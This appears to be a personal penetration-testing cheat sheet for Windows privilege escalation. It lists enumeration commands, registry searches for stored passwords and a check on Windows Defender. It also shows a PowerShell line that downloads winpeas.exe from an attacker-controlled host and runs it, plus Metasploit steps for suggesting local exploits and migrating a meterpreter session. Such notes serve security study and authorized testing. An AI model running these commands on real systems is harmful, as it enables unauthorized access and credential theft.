 					Information Gathering
## User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
## Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `wmic product get name,version,vendor` installed apps
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?
- `cmdkey /list` list
- `reg query HKLM /f password /t REG_SZ /s` registry key containing passwords
- `reg query HKCU /f password /t REG_SZ /s` registry key containing passwords
<!-- -->

				Kernal Exploits
- `driverquery`
### Winpeas.exe
Local:
- `python3 -m http.server 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
 
 ### Metasploit
 only works if you have meterpreter shell
 
 - `background` background current shell
 - `use post/multi/recon/local_exploit_suggester`
 - `set session 1`
 - `run`
 
 <!-- -->
 You might need to migrate meterprete shell
 - `tasklist` get pids
 - `migrate $PID` in meterpreter